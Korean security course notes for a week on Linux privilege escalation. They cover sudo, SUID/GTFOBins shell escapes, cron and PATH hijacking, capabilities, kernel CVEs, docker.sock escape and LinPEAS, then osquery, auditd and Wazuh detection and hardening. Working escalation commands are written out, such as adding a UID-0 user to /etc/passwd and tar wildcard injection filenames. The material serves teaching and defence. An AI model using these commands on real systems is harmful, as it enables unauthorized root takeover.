

# Week 11 — Linux 권한 상승 (Privilege Escalation)

> **PTES 의 6 단계 Post Exploitation 의 핵심**. attacker 가 첫 진입 (W04-W07 web 또는
> W06 SSH brute) 후 일반 user → root 권한 상승. CWE-269 / ATT&CK TA0004. 본
> 주차는 5 카테고리 (config / SUID / cron / capabilities / kernel) + LinPEAS
> 자동화 + GTFOBins 활용 + docker.sock escape 모두 다룬다.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **권한 상승의 정의** + PTES 6 단계의 위치
2. **5 카테고리** (config / SUID / cron / capabilities / kernel) 상세
3. **GTFOBins** + **LOLBAS** 의 활용
4. **LinPEAS / linux-smart-enumeration / linuxprivchecker** 도구 비교
5. **docker.sock escape** 의 원리
6. **kernel exploit** (Dirty COW / Pwnkit / OverlayFS) 의 패턴
7. **방어 측 detection** (osquery + sysmon + auditd)
8. W11 R/B/P 1 사이클

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                | 유형 |
|-----------|---------------------------------------------------------------------|------|
| 0:00–0:30 | 이론 — 권한 상승의 정의 + 5 카테고리 개요                            | 강의 |
| 0:30–1:00 | 이론 — SUID + sudo + capabilities + GTFOBins                        | 강의 |
| 1:00–1:10 | 휴식                                                                 | —    |
| 1:10–1:40 | 이론 — cron + systemd + kernel exploit                              | 강의 |
| 1:40–2:00 | 이론 — docker.sock escape + container 보안                          | 강의 |
| 2:00–2:30 | 실습 1, 2 — 수동 enum 5 카테고리                                    | 실습 |
| 2:30–2:40 | 휴식                                                                 | —    |
| 2:40–3:10 | 실습 3, 4 — LinPEAS + GTFOBins                                       | 실습 |
| 3:10–3:30 | 실습 5 — R/B/P 보고서                                               | 실습 |
| 3:30–3:40 | 정리 + W12 (지속성 + 안티포렌식) 예고                                | 정리 |

---

## 1. 권한 상승의 정의

### 1.1 정의

```
Privilege Escalation = 낮은 권한 (일반 user) → 높은 권한 (root / admin / SYSTEM)
                        획득하는 행위

CWE-269: Improper Privilege Management
ATT&CK TA0004: Privilege Escalation
```

### 1.2 PTES 6 단계의 위치

```
1. Pre-engagement
2. Recon
3. Threat Modeling
4. Vuln Analysis
5. Exploitation       ← 첫 user 권한 획득 (W04-W07)
6. Post Exploitation  ← 본 주차 (root 권한 + 지속성)
7. Reporting
```

### 1.3 2 유형

| 유형 | 의미 |
|------|------|
| **Vertical** (수직) | 권한 레벨 상승 (user → root) — 본 주차 |
| **Horizontal** (수평) | 같은 레벨 다른 user 권한 (user1 → user2) — IDOR 등 |

### 1.4 권한 상승의 5 카테고리

| 카테고리 | 비중 | 본 lab 빈도 |
|----------|------|------------|
| Configuration | 30% | 흔함 (sudo / world-writable / SSH key) |
| SUID binary | 25% | 흔함 (GTFOBins 활용) |
| Cron job | 15% | 보통 |
| Capabilities | 15% | 가끔 |
| Kernel exploit | 10% | 드물 (모던 환경) |
| 기타 (container escape 등) | 5% | 드물 |

---

## 2. Configuration 약점

### 2.1 sudo 의 NOPASSWD

```bash
# /etc/sudoers
ccc ALL=(ALL) NOPASSWD: ALL    ← 모든 명령 root 권한 + 비번 없이

# 또는
ccc ALL=(ALL) NOPASSWD: /usr/bin/vim   ← vim 만 root 권한 가능
```

**확인**:
```bash
sudo -l
# 출력:
#   User ccc may run the following commands on this host:
#       (ALL) NOPASSWD: ALL
```

**활용**:
```bash
# (ALL) NOPASSWD: ALL → 즉시 root shell
sudo bash

# 부분 NOPASSWD (sudo 가능한 명령 만)
# GTFOBins 의 'Sudo' 카테고리 활용
sudo vim -c ':!/bin/sh'         # vim 의 escape → shell
sudo find / -exec /bin/sh \;    # find 의 -exec
sudo less /etc/passwd           # less → /etc/shadow read 가능
```

### 2.2 weak file permission

```bash
# /etc/passwd 가 world-writable
ls -la /etc/passwd
# -rw-rw-r--   ← 644 면 normal, 666 (rw-rw-rw-) 이면 user 변조 가능
```

**활용 (world-writable /etc/passwd)**:
```bash
# 새 root user (UID 0) 추가
echo 'attacker::0:0::/root:/bin/bash' >> /etc/passwd
su - attacker   # 비번 없이 root
```

### 2.3 SSH authorized_keys

```bash
ls -la ~/.ssh/authorized_keys
# /root/.ssh/authorized_keys 에 user 쓰기 권한 시
# → 본인 key 추가 → root 로 SSH login 가능
```

---

## 3. SUID binary + GTFOBins

### 3.1 SUID 의 동작

```
SUID (Set User ID) bit:
  파일의 mode 가 4xxx (예: 4755) 면 실행 시 binary 의 owner 권한으로 실행
  /usr/bin/sudo: -rwsr-xr-x → SUID + root owner → 모든 user 가 root 권한 임시

위험: root SUID binary 가 shell escape / file read / 임의 명령 실행 가능 시 → root 권한 상승
```

### 3.2 SUID 검색

```bash
# SUID + root owner 인 binary 모두
find / -perm -4000 -uid 0 -type f 2>/dev/null

# 결과 예:
# /usr/bin/sudo       ← 정상
# /usr/bin/su          ← 정상
# /usr/bin/passwd      ← 정상
# /usr/bin/chsh        ← 정상
# /usr/bin/chfn        ← 정상
# /usr/bin/mount       ← 정상
# /usr/bin/umount      ← 정상
# /usr/bin/newgrp      ← 정상
# /usr/bin/find        ← 의심 (GTFOBins!)
# /usr/bin/vim         ← 의심
# /opt/legacy_app      ← 의심 (custom)
```

### 3.3 GTFOBins (https://gtfobins.github.io)

**GTFOBins** = "Get The Fuck Out Binaries" — Linux binary 의 SUID / sudo 활용 cheat
sheet. 200+ binary 의 unintended functionality 목록.

각 binary 의 카테고리:
- Shell: 직접 shell escape
- Command: 명령 실행
- Reverse shell: reverse conn
- File read: 파일 read (root 권한)
- File write: 파일 write
- File upload: SCP / etc
- Library load: LD_PRELOAD 등
- SUID: SUID 활용 방법
- Sudo: sudo 활용 방법
- Limited SUID: 제한된 SUID

### 3.4 핵심 SUID 활용 10

```bash
# SUID find
find . -exec /bin/sh -p \;

# SUID vim
vim -c ':!/bin/sh'

# SUID awk
awk 'BEGIN {system("/bin/sh")}'

# SUID less
less /etc/passwd
# less prompt 에서 !sh

# SUID more
more /etc/passwd
# more prompt 에서 !sh

# SUID python3
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# SUID perl
perl -e 'exec "/bin/sh -p"'

# SUID nmap (legacy)
nmap --interactive
# nmap> !sh

# SUID tar
tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# SUID nano
nano
# Ctrl-R Ctrl-X
# reset; sh 1>&0 2>&0
```

### 3.5 LOLBAS (Windows 의 대응)

```
LOLBAS = Living Off The Land Binaries and Scripts (Windows)
https://lolbas-project.github.io
정상 Windows binary (certutil / regsvr32 / mshta 등) 의 unintended 사용
```

(본 lab 은 Linux 만 — 별 학습)

---

## 4. Cron 의 약점

### 4.1 cron 의 동작

```
/etc/crontab — 시스템 cron
/etc/cron.d/* — 개별 cron job 파일
/etc/cron.daily/, /etc/cron.hourly/, /etc/cron.weekly/, /etc/cron.monthly/ — 정기
/var/spool/cron/crontabs/<user> — user 별 crontab
```

cron entry format:
```
* * * * * <user> <command>
| | | | |   |       |
분 시 일 월 요일   user   명령
```

### 4.2 cron 권한 상승 패턴

#### Pattern 1 : world-writable script

```bash
# /etc/cron.d/backup
*/5 * * * * root /usr/local/bin/backup.sh

# /usr/local/bin/backup.sh 가 world-writable (mode 777)
ls -la /usr/local/bin/backup.sh
# -rwxrwxrwx

# user 가 script 변경
echo '#!/bin/bash' > /usr/local/bin/backup.sh
echo 'cp /bin/sh /tmp/rootsh; chmod 4755 /tmp/rootsh' >> /usr/local/bin/backup.sh
# 5분 후 cron 실행 → root SUID shell 생성
```

#### Pattern 2 : PATH 의 의존성

```bash
# /etc/crontab
*/5 * * * * root cleanup    ← absolute path 아님

# attacker 가 /tmp/cleanup 작성
echo '#!/bin/sh' > /tmp/cleanup
echo 'cp /bin/sh /tmp/rootsh; chmod 4755 /tmp/rootsh' >> /tmp/cleanup
chmod +x /tmp/cleanup

# PATH 에 /tmp 가 우선이면 → /tmp/cleanup 실행 → root SUID shell
export PATH=/tmp:$PATH
```

#### Pattern 3 : weak wildcard

```bash
# cron 의 명령에 wildcard
tar czf backup.tar.gz *

# user 가 /home/user 에 파일 생성:
echo "" > "--checkpoint-action=exec=sh runme.sh"
echo "" > "--checkpoint=1"

# tar 가 wildcard expansion → --checkpoint-action 옵션으로 인식 → runme.sh 실행
```

### 4.3 systemd timer (모던 alternative)

```bash
# /etc/systemd/system/backup.service
[Service]
ExecStart=/usr/local/bin/backup.sh

# /etc/systemd/system/backup.timer
[Timer]
OnCalendar=hourly
```

cron 과 유사한 권한 상승 패턴.

---

## 5. Linux capabilities

### 5.1 capabilities 의 동작

```
전통적 권한: user = root (0) 또는 일반
모던 권한: root 의 권한을 30+ 개 fine-grained capability 로 분리

cap_net_raw      raw socket (ping 등)
cap_dac_override DAC (Discretionary Access Control) 우회 (모든 파일 read/write)
cap_setuid       setuid() 호출 (UID 변경 → 권한 상승)
cap_setgid       setgid()
cap_sys_admin    sudo 와 거의 동등
cap_sys_module   kernel module load (rootkit 가능)
cap_kill         signal 전송 (다른 process kill)
```

### 5.2 capability 검색

```bash
# 모든 binary 의 capability
getcap -r / 2>/dev/null

# 결과 예:
# /usr/bin/ping cap_net_raw=ep
# /usr/bin/mtr-packet cap_net_raw=ep
# /usr/bin/python3 cap_setuid=ep   ← 의심! setuid() 가능 → root
```

### 5.3 cap_setuid 활용

```bash
# python3 가 cap_setuid 가 있다면
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# 즉시 root shell
```

### 5.4 cap_dac_override 활용

```bash
# binary 에 dac_override 면 모든 파일 read/write
# 예: 가짜 cat 으로 /etc/shadow read
```

---

## 6. Kernel exploit

### 6.1 알려진 CVE

| CVE | 이름 | 영향 |
|-----|------|------|
| CVE-2016-5195 | **Dirty COW** | Linux 2.6.22+ — read-only mapping write 가능 |
| CVE-2021-4034 | **Pwnkit** | polkit 의 pkexec — 모든 user → root |
| CVE-2021-3493 | **OverlayFS** | overlayfs + user namespace |
| CVE-2022-0847 | **DirtyPipe** | pipe 의 PIPE_BUF_FLAG_CAN_MERGE |
| CVE-2023-0386 | OverlayFS file capabilities | |
| CVE-2024-1086 | nf_tables UAF | Netfilter 의 use-after-free |

### 6.2 kernel exploit 시도 절차

```bash
# 1. 현재 kernel version
uname -a
# Linux ... 6.x ...

# 2. searchsploit
searchsploit linux kernel 6.x

# 3. 또는 자동 도구 — linux-exploit-suggester
wget https://github.com/mzet-/linux-exploit-suggester/raw/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

# 4. 발견된 exploit 시도 (조심 — kernel panic 위험)
```

### 6.3 본 lab 의 kernel exploit 가능성

```
6v6 의 host: Linux 6.x — 최신 패치 반영
kernel exploit 가능성 낮음 → 학습 시뮬만
```

---

## 7. Container escape (docker.sock)

### 7.1 docker.sock 마운트의 위험

```yaml
# docker-compose.yml
services:
  bastion:
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock:ro    ← read-only 라도 위험
```

**왜 위험?**: docker socket = root 권한과 동등 (모든 컨테이너 제어 가능).

### 7.2 docker.sock escape

```bash
# 컨테이너 안에서 docker.sock 사용
docker -H unix:///var/run/docker.sock ps
# 호스트의 모든 컨테이너 list

# 새 컨테이너 with host root mount
docker -H unix:///var/run/docker.sock run --rm -it -v /:/host alpine sh
chroot /host
# = 호스트의 root 권한

# 또는 privileged container
docker -H unix:///var/run/docker.sock run --rm --privileged -it alpine sh
```

### 7.3 본 lab 의 bastion

bastion 컨테이너는 docker.sock 마운트 (학습 환경의 docker ps 위해). 학습 시뮬만 — 실
escape 안 함.

### 7.4 방어

- **docker.sock 미마운트** (필요 시 alternative — docker API socket proxy)
- **rootless docker** 운영
- **podman** 등 daemonless alternative
- **AppArmor / SELinux** 의 docker confinement

---

## 8. 권한 상승 도구

### 8.1 LinPEAS

```
역사: 2019 Carlos Polop (PEASS-ng 프로젝트)
라이선스: MIT
언어: bash
크기: 1MB+ 단일 script
체크: 5 카테고리 + 100+ 항목 자동
```

```bash
# 다운로드
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh

# 실행
./linpeas.sh -a > linpeas_output.txt

# 출력 색상:
# 🔴 빨강 — 즉시 권한 상승 가능 (high)
# 🟡 노랑 — 흥미로운 발견 (medium)
# 🔵 파랑 — 정보 (low)
```

### 8.2 linux-smart-enumeration (lse.sh)

```
역사: 2017 Diego Tella
강점: 단계별 detail level (-l0 ~ -l2) — LinPEAS 보다 가벼움
```

```bash
./lse.sh -l 0    # 권한 상승 즉시 가능한 약점만
./lse.sh -l 1    # 추가 detail
./lse.sh -l 2    # 모든 정보
```

### 8.3 linuxprivchecker.py

```
역사: 2009 SecuritySift (Mike Czumak)
언어: Python
강점: Python only — bash 없는 환경
```

### 8.4 GTFOBins.github.io

위 §3.3 참조 — SUID 활용 표준 cheat sheet.

---

## 9. 방어 측 detection (Blue Team)

### 9.1 osquery

```sql
-- 모든 SUID binary
SELECT path, mode, uid, gid FROM suid_bin;

-- 의심 cron entry
SELECT * FROM crontab WHERE command LIKE '%curl%' OR command LIKE '%wget%';

-- world-writable file
SELECT path FROM file WHERE mode = '0777';

-- root authorized_keys
SELECT * FROM authorized_keys WHERE uid = 0;

-- capability binary
SELECT path FROM file WHERE path IN (
    SELECT path FROM process_open_files
)
WHERE ...   -- 별도 분석
```

### 9.2 sysmon-for-linux (W11 secuops)

```
ProcessCreate event 의 ParentImage / CommandLine 분석:
  - /bin/sh 의 ParentImage 가 /usr/bin/sudo 면 정상
  - /bin/sh 의 ParentImage 가 /usr/bin/vim 이면 의심 (SUID escape)
```

### 9.3 auditd

```bash
# 모든 sudo 명령 audit
sudo auditctl -a always,exit -F arch=b64 -S execve -F euid=0 -F auid>=1000 -k root_cmd

# 결과
sudo ausearch -k root_cmd
```

### 9.4 Wazuh rule

```xml
<rule id="100600" level="12">
  <if_sid>5402</if_sid>    <!-- sudo command -->
  <field name="command">/bin/(s|b)?ash</field>
  <description>Privilege escalation — root shell via sudo</description>
</rule>
```

---

## 10. ATT&CK 매핑

| Tactic | Technique |
|--------|-----------|
| TA0004 Privilege Escalation | T1548.001 setuid/setgid |
| | T1548.003 Sudo and Sudo Caching |
| | T1543.002 systemd service |
| | T1053.003 cron |
| | T1547.006 LD_PRELOAD |
| | T1611 Escape to Host (container) |
| TA0005 Defense Evasion | T1078 Valid Accounts |

---

## 11. R/B/P 시나리오 — 권한 상승 1 사이클



---

## 12. 실습 1~5

### 실습 1 — bastion 의 5 카테고리 수동 enum

```bash
ssh 6v6-bastion '
echo "=== 1. id + sudo -l ==="
id
sudo -l 2>&1 | head -5

echo ""
echo "=== 2. SUID binary ==="
find / -perm -4000 -uid 0 -type f 2>/dev/null | head -15

echo ""
echo "=== 3. capabilities ==="
getcap -r / 2>/dev/null | head -10

echo ""
echo "=== 4. cron ==="
cat /etc/crontab 2>/dev/null
ls -la /etc/cron.d/ 2>/dev/null

echo ""
echo "=== 5. world-writable file ==="
find / -perm -002 -type f 2>/dev/null | head -10
'
```

### 실습 2 — kernel version + uname

```bash
ssh 6v6-bastion '
echo "=== kernel version ==="
uname -a

echo ""
echo "=== /etc/os-release ==="
cat /etc/os-release

echo ""
echo "=== 설치된 보안 패치 (Ubuntu) ==="
dpkg -l linux-image* 2>&1 | tail -5
'
```

### 실습 3 — LinPEAS 다운로드 + 실행 (시뮬)

```bash
ssh 6v6-bastion '
echo "=== LinPEAS 다운로드 ==="
curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o /tmp/linpeas.sh 2>&1 | head -3
ls -la /tmp/linpeas.sh 2>&1

echo ""
echo "=== LinPEAS 의 빠른 mode (-q 또는 부분 실행) ==="
chmod +x /tmp/linpeas.sh 2>/dev/null
# 실제 실행은 5+분 — 본 lab 에서는 부분만
# timeout 60 bash /tmp/linpeas.sh -a 2>&1 | head -50
echo "(실 실행은 시간 소요 — 학습용 시뮬)"
'
```

### 실습 4 — GTFOBins 활용 시나리오

```bash
ssh 6v6-bastion '
echo "=== sudo -l 의 NOPASSWD 명령 확인 ==="
sudo -l 2>&1 | grep NOPASSWD

# 학습 환경 (ccc NOPASSWD: ALL 이라면):
echo ""
echo "=== 학습 환경의 NOPASSWD 가 ALL 인 경우 ==="
echo "공격자는 즉시 root shell 가능: sudo bash"
echo ""

# 만약 부분 NOPASSWD 면 GTFOBins 의 cheat sheet 활용:
echo "=== GTFOBins 의 sudo 활용 예 ==="
echo "  sudo vim -c ':!/bin/sh'"
echo "  sudo find / -exec /bin/sh \\;"
echo "  sudo awk \"BEGIN {system(\\\"/bin/sh\\\")}\""
echo "  sudo python3 -c \"import os; os.execl(\\\"/bin/sh\\\", \\\"sh\\\", \\\"-p\\\")\""
'
```

### 실습 5 — R/B/P 보고서

```bash
# Blue 측 — osquery 의 detection
ssh 6v6-bastion '
echo "=== osquery — 권한 상승 헌팅 ==="
sudo osqueryi --json "SELECT path, mode FROM suid_bin LIMIT 5;" 2>&1 | head
echo ""
sudo osqueryi --json "SELECT * FROM crontab LIMIT 5;" 2>&1 | head
echo ""
sudo osqueryi --json "SELECT * FROM authorized_keys WHERE uid=0;" 2>&1 | head
'

# Wazuh — sudo command alert
ssh 6v6-siem '
echo "=== Wazuh sudo command alert (rule 5402) ==="
sudo tail -100 /var/ossec/logs/alerts/alerts.json | \
    jq "select(.rule.id == \"5402\")" 2>/dev/null | head -5
'
```

**R/B/P 보고서**:

```markdown
# W11 R/B/P 보고서 — 권한 상승

## Red 측
- 5 카테고리 enum 완료
- 발견: NOPASSWD: ALL (학습 환경 — production 위험)
- 발견: SUID binary 10+ (정상)
- 발견: capability python3 cap_setuid (있다면 — 의심)
- LinPEAS 다운로드 완료

## Blue 측 Coverage
| 카테고리 | osquery | sysmon | Wazuh |
| SUID 변경 | file_events | FileCreate | rule 550 |
| cron 변경 | crontab 테이블 | FileCreate | rule 5712 |
| sudo command | (없음) | ProcessCreate | rule 5402 |
| authorized_keys 변경 | authorized_keys 테이블 | FileCreate | rule 550 |

총 Coverage: 80% (sudo command 의 일부 detection gap)

## Purple 측 권장
1. NOPASSWD: ALL 제거 (production)
2. 정기 SUID audit (월별)
3. cron file 권한 검토 + git audit
4. osquery daemon mode + scheduled query (5분 주기)
5. Wazuh rule 100600 추가 (root shell via sudo 즉시 detect)
```

---

## 13. 방어 표준

| 약점 | 방어 |
|------|------|
| NOPASSWD: ALL | 부분 NOPASSWD + 정기 review |
| SUID 비표준 | SUID audit (월별) + AIDE / Tripwire |
| cron weak | cron file 권한 0644 + script 0700 |
| capability | 최소 capability + 정기 review |
| kernel exploit | 정기 패치 + LTS kernel |
| docker.sock | 미마운트 또는 rootless docker |

---

## 13.5 Windows 권한상승 — 짧은 비교 (W03 secuops 위빙)

본 주차는 Linux 권한상승이 중심이다. Windows 권한상승은 OS 가 다르지만 분석 패턴은 유사하다 —
**일반 사용자 권한 → 관리자(또는 SYSTEM) 권한**.

### Windows 권한상승 5 표준 패턴

| 패턴 | 의미 | Blue 측 단서 |
|------|------|-------------|
| UAC bypass | 사용자 동의 없이 elevated 토큰 획득 (fodhelper, eventvwr 등) | Sysmon EID 1 의 비정상 parent-child 관계 |
| Token 도용 | SeImpersonatePrivilege 활용 (RottenPotato 류) | Sysmon EID 10 (LSASS 접근) |
| 서비스 권한 오용 | 약한 서비스 권한 (modify) | Sysmon EID 11 (Service Path 변경) |
| Registry 권한 오용 | 약한 키 권한 (AlwaysInstallElevated 등) | Sysmon EID 12/13/14 |
| Stored credential | runas / DPAPI / SAM 파일 | Sysmon EID 1 (mimikatz 류 도구 실행) |

### Linux ↔ Windows 권한상승의 공통점

- 둘 다 **잘못된 권한 설정** 이 핵심 (Linux SUID / Windows 서비스 권한).
- 둘 다 **stored credential** 이 황금 (Linux /etc/shadow / Windows SAM/DPAPI).
- 둘 다 **alert source 가 호스트 측** (auditd / Sysmon).

> 본 주차의 Linux 권한상승 학습 패턴은 Windows 에 그대로 옮길 수 있다 — OS 별 도구만 익히면 된다.
> 실 모의침투에선 거의 항상 **Windows 권한상승** 이 더 자주 나온다 (사용자 PC 가 핵심 표적이므로).

---

## 14. 한국 사례

- 대부분 KISA 침해 사고가 첫 진입 후 권한 상승 → 본 주차 학습 의 가치
- ISMS-P 2.5.4 사용자 인증 + 2.6.1 네트워크 접근 통제

---

## 15. 과제

A. **enum 보고서** (필수, 40점) — 5 카테고리 + 각 카테고리 발견 + 권한 상승 가능성
B. **LinPEAS 결과** (심화, 30점) — 색상별 발견 분류
C. **권한 상승 가설** (정성, 30점) — 발견 사항으로 가설 시나리오 1+

---

## 16. 핵심 정리 (10 줄)

1. **권한 상승 = PTES 6 단계** Post Exploitation 의 핵심
2. **5 카테고리** — Configuration / SUID / cron / capabilities / kernel
3. **GTFOBins** = SUID 활용 cheat sheet (200+ binary)
4. **LinPEAS** = 자동화 (5 카테고리 + 100+ 점검)
5. **capability cap_setuid** = root 권한 직접 → 가장 위험
6. **cron weak permission** = 가장 빈번한 권한 상승 vector
7. **kernel exploit** = 모던 환경에서 빈번 X (정기 패치)
8. **docker.sock escape** = 컨테이너 의 root 권한 → host root
9. **W11 R/B/P** — Red enum → osquery + sysmon + Wazuh 5402 → 5 권장
10. **W12 (지속성 + 안티포렌식)** 다음 주차
